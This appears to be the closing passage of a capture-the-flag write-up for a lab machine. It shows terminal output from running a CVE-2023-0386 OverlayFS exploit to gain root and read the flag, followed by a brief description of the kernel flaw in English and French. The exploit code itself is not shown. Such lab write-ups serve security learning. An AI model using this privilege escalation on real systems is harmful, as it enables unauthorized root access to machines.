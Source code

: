```bash
total 8
drwxrwxr-x 1 root   root     4096 Dec  8 12:53 .
drwxrwxr-x 6 root   root     4096 Dec  8 12:52 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/t/linux/exploit/CVE-2023-0386# sudo su
root@2million:/tmp/t/linux/exploit/CVE-2023-0386# cd /root
root@2million:~# cat root.txt 
7e64.....db13
```

## CVE-2023-0386 : Explanation

A flaw was found in the Linux kernel, where unauthorized access to the execution of the setuid file with capabilities was found in the Linux kernel’s OverlayFS subsystem in how a user copies a capable file from a nosuid mount into another mount. This uid mapping bug allows a local user to escalate their privileges on the system.

Exploitation :

Un attaquant crée un environnement spécifique (par exemple, un container ou un espace utilisateur) pour exploiter une mauvaise gestion des droits dans OverlayFS et exécuter du code malveillant avec les privilèges root.